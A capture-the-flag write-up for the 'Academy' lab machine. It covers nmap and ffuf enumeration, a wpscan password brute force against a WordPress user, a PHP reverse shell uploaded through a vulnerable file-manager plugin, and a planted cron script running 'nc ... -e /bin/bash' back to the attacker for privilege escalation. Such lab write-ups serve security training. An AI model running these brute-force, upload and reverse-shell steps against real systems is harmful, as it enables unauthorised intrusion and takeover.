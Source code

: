 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/the-hackers-labs/academy/","tags":["CTF","write-up","#wordpress"]}
---
```



![Pasted image 20241211222106.png|400](/img/user/attachments/Pasted%20image%2020241211222106.png)

---

> [!INFO] Info about Academy
>  Linux

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Linux
## Port 22 - SSH
tcp open  ssh     **OpenSSH 9.2**p1 Debian 2+deb12u2 (protocol 2.0)
## Port 80 - Apache
tcp open  http    **Apache** httpd **2.4.59** ((Debian))
Add IP to */etc/hosts* (Optional)
```shell
sudo echo "192.168.122.4 academy.thl" | sudo tee -a /etc/hosts
```

![Pasted image 20241212104601.png](/img/user/attachments/Pasted%20image%2020241212104601.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://academy.thl/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
One important result *WordPress*
### Wordpress
Version 6.5.3
![Pasted image 20241212110945.png](/img/user/attachments/Pasted%20image%2020241212110945.png)
#### Fuzz
```shell
ffuf -c -t 100 -u http://academy.thl/wordpress/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
Nothing important

---
# Vulnerability analysis
## Wordpress
#### Wpscan
```shell
wpscan --url 192.168.122.4/wordpress -e vp,u --api-token="554f34g5gfhdg" --plugins-detection aggressive
```

Usernames
- dylan

The version has some vulnerabilities
![Pasted image 20241212122111.png](/img/user/attachments/Pasted%20image%2020241212122111.png)

The plugin *file-manager* has some vulnerabilities
![Pasted image 20241212120332.png](/img/user/attachments/Pasted%20image%2020241212120332.png)


---
# Exploitation
## Brute force attack to wordpress
```shell
wpscan --url 192.168.122.4/wordpress -U dylan -P /usr/share/wordlists/rockyou.txt
```
![Pasted image 20241212122444.png](/img/user/attachments/Pasted%20image%2020241212122444.png)

Now I can log in to the admin panel
![Pasted image 20241212123656.png](/img/user/attachments/Pasted%20image%2020241212123656.png)
## File upload
I use the vulnerability from the vulnerability analysis section named *Bit File Manager – 100% Free & Open Source File Manager and Code Editor for WordPress < 6.5.6 - Authenticated (Subscriber+) Arbitrary File Upload*
1. Go to the plugin section
2. Open the plugin on home
   ![Pasted image 20241212124333.png](/img/user/attachments/Pasted%20image%2020241212124333.png)
3. Click on home again
   ![Pasted image 20241212124436.png](/img/user/attachments/Pasted%20image%2020241212124436.png)
4. Navigate to a folder that you can aaccess it, in my case `http://192.168.122.4/wordpress/wp-content/uploads/` and click on upload
   ![Pasted image 20241212124905.png](/img/user/attachments/Pasted%20image%2020241212124905.png)
5. Now upload a reverse shell for example, I use */usr/share/webshells/php/php-reverse-shell.php* changing the data
   ![Pasted image 20241212125052.png](/img/user/attachments/Pasted%20image%2020241212125052.png)
6. Start the listener
```shell
rlwrap nc -lnvp 4747
```
7. Go to the path of file `192.168.122.4/wordpress/wp-content/uploads/php-reverse-shell.php`
8. We have a reverse shell
   ![Pasted image 20241212125253.png](/img/user/attachments/Pasted%20image%2020241212125253.png)

---
# Privilege escalation
Checking the files, I notice that I can write into *opt*
![Pasted image 20241212184041.png](/img/user/attachments/Pasted%20image%2020241212184041.png)
Thereis a file *cackup.py*, the content is:
![Pasted image 20241212184317.png](/img/user/attachments/Pasted%20image%2020241212184317.png)
There are credentials, I test them with no successful results.
I assume that another user is possibly executing the script, I look for on *crontabs* but unsuccessful.
I used [[pspy\|pspy]] to check some root processes without need root privileges. Transfer the binary.
```shell
pspy
```
![Pasted image 20241212184909.png](/img/user/attachments/Pasted%20image%2020241212184909.png)

A user is executing a binary named *backup.sh* instead *backup.py*
Create a *backup.sh* on the *opt* directory with the follow content to send us a revere shell.
```shell
#!/bin/bash
nc 192.168.122.192 4748 -e /bin/bash
```

Now set the listener
```shell
rlwrap nc -lnvp 4748
```

Wait if some user execute this script and it works. Looks that the script is executing very minute.
![Pasted image 20241212185335.png](/img/user/attachments/Pasted%20image%2020241212185335.png)

> [!check] User flag
> ![Pasted image 20241212185547.png](/img/user/attachments/Pasted%20image%2020241212185547.png)

> [!check] Root flag
> ![Pasted image 20241212185422.png](/img/user/attachments/Pasted%20image%2020241212185422.png)

---